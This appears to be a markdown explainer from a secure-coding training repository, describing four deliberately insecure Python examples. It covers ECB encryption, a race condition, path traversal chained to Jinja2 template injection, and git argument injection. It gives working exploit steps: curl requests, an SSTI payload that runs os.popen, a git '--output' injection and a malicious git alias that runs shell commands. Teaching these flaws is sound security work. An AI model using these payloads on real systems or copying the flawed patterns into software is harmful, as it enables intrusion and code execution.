 # Contents

- [WeakEncryption.py](#weakencryptionpy)
- [RaceCondition.py](#raceconditionpy)
- [PathTraversal.py](#pathtraversalpy)
- [ArgumentInjection.py](#argumentinjectionpy)

&nbsp;

## [WeakEncryption.py](../../examples/insecure/python/WeakEncryption.py)
Path: `/examples/insecure/python/WeakEncryption.py`

### Explanation

- It is not recommended to use ECB (Electronic Codebook) mode in AES encryption (line 1) because this mode encrypts data block by block without proper randomization. Instead, CBC (Cipher Block Chaining) mode or other cryptographically secure methods should be used. 

- When encryption is performed using ECB, patterns in the input data can still be observed in the output, making it insecure for certain types of data, especially images. For example:
   - If a block of data (a byte) is changed, only the specific block in the output is affected and the rest remains unchanged. This behavior is not suitable for encryption of sensitive or visual data.

- A visual example of ECB's block-by-block encoding is the well-known "ECB Tux" image:  
  ![ECB Tux Example](../../docs/img/ecb-tux.jpg)  
  As seen in this example, the penguin shape remains recognizable in the encrypted image, demonstrating ECB's vulnerability.

To better understand this vulnerability, I recommend reviewing the resources listed under cryptography in [Articles.md](../../docs/references/Articles.md).


&nbsp;


## [RaceCondition.py](../../examples/insecure/python/RaceCondition.py)

Path: `/examples/insecure/python/RaceCondition.py`

### Explanation

You cannot perform a directory traversal attack due to line 9. However, Absolute Path Manipulation + Arbitrary File Write via Race Condition can be applied

**Absolute Path Manipulation (`os.path.join`)**  
```python
src = os.path.join('contrib', 'languages', language_name)  # e.g., language_name = "/tmp/storage/malicious.tar"
```  
**Behavior and Vulnerability:**  

- If `language_name` contains an absolute path (e.g., `/tmp/storage/malicious.tar`), `os.path.join` **ignores previous components**:  
  ```python
  src = os.path.join('contrib', 'languages', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes contrib/languages/)

  dst = os.path.join('/tmp/extract', '/tmp/storage/malicious.tar') 
  # Result: /tmp/storage/malicious.tar (removes /tmp/extract)
  ```

- Since `src` and `dst` **point to the same file**, `shutil.copy` may raise a **SameFileError**. However, an attacker can bypass this error using a Race Condition attack.  

**Exploiting `shutil.copy` with a Race Condition**  
```python
shutil.copy(src, dst)  # Fails if source and destination are the same, BUT...
```  

1. **Step 1: Upload a Malicious TAR File via `/upload`**  
   ```bash
   curl -F "data=@malicious.tar" http://arastaci.com/upload -H "Content-Disposition: attachment; filename='/tmp/storage/malicious.tar'"
   ```  
   - The file is stored as `/tmp/storage/malicious.tar`.

2. **Step 2: Trigger the `install` Endpoint**  
   ```bash
   curl "http://arastaci.com/install?language_name=/tmp/storage/malicious.tar"
   ```

3. **Step 3: Quickly Delete the File (`/clean`)**  
   ```bash
   curl "http://arastaci.com/clean?file=/tmp/storage/malicious.tar"
   ```

#### **How the Race Condition Works:**  
- `shutil.copy` executes in **two steps**:  
  - If an attacker deletes `src` **after the existence check** but **before the copy operation**, `shutil.copy` **fails silently**.  
  - This does **not** prevent `unpack_archive(dst, extract_dir='/tmp/extract')` from executing, allowing the extraction of malicious files.  


&nbsp;

## [PathTraversal.py](../../examples/insecure/python/PathTraversal.py)

Path: `/examples/insecure/python/PathTraversal.py`

### Explanation

**Path Traversal + SSTI (Server-Side Template Injection)**  

At line 23, the username parameter received during user registration is directly appended to the file path.

**Issue:**  
- If the username parameter is set to `../templates/error.html`, the **notes_file** path resolves to `templates/error.html`. This allows overwriting the template file.

- Since templates/error.html is within the application’s root directory (app.root_path), **the validation does not fail**.


#### **Register with a Malicious Username**
```markdown
POST /register HTTP/1.1
...
username=../templates/error.html&password=test
```
- notes_file resolves to notes/../templates/error.html → templates/error.html

#### **Inject an SSTI Payload**
```markdown
POST /notes HTTP/1.1
...
notes={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
- This writes a malicious Jinja2 template payload into error.html

#### **Trigger the Error Page**
```markdown
GET /register?username=guest  # "Username already taken!" error
```
- The error.html template is rendered, executing the payload → **Displays the output of the `id` command**.

&nbsp;

## [ArgumentInjection.py](../../examples/insecure/python/ArgumentInjection.py)

Path: `/examples/insecure/python/ArgumentInjection.py`

### **Explanation**

At line 9, the `/blame` endpoint directly passes the user-supplied `what[]` parameter to the `git blame` command.

**Issue:**  
  The `file` and `lines` parameters are included in **git blame** without validation.  
  An attacker can inject Git arguments like `--output`, leading to filesystem manipulation.

### **Exploitation: Inject Malicious Parameters**
```markdown
POST /blame HTTP/1.1
...
what[]=--output=../../.git/HEAD:1
```
- Executes: `git blame -L 1 --output=../../.git/HEAD`
- Result: The `.git/HEAD` file **gets truncated (emptied)**.

#### **Exploiting Git's Behavior**
When `.git/HEAD` is corrupted, Git searches for a **bare repository** in parent directories.

If the attacker places a fake Git configuration in the root directory:
```ini
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
[alias]
    blame = !sh -c 'id > /tmp/pwned' #
```
The next **git blame** execution triggers the **custom alias**, executing the `id` command.

&nbsp;
